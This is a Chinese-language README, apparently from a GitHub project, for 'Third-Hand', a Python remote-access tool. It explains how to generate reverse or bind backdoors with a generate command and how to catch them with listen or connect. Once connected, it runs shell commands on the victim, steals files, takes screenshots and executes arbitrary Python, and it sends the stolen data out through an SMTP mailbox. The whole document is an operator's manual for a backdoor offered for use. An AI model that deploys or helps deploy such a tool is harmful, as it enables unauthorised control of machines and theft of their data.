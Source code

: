 # Third-Hand

## 如何使用Third-Hand  

用Python 3.10或以上版本的解释器运行Third-Hand.py  

运行结果
```
     _____ _     _         _   _   _                 _ 
    |_   _| |__ (_)_ __ __| | | | | | __ _ _ __   __| |
      | | | '_ \| | '__/ _` | | |_| |/ _` | '_ \ / _` |
      | | | | | | | | | (_| | |  _  | (_| | | | | (_| |
      |_| |_| |_|_|_|  \__,_| |_| |_|\__,_|_| |_|\__,_|
                                                    
                                            V 0.1
    
Third-Hand $>
```  

### 使用generate命令生成后门  

```
generate [选项] [文件路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向后门
   当选项的值为1时 生成的为正向后门
2. [文件路径] 生成后门的路径
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为目标
```  

### 使用connect命令连接正向后门  

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向后门连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"$>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py name = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```
## Third-Hand的GUI版本  

<del>由大佬heiheilq提供 尽情期待  </del>
<del>别问为啥删（问就是懒</del>

## Third-Hand的语言支持  

由大佬onion108提供 尽情期待


   
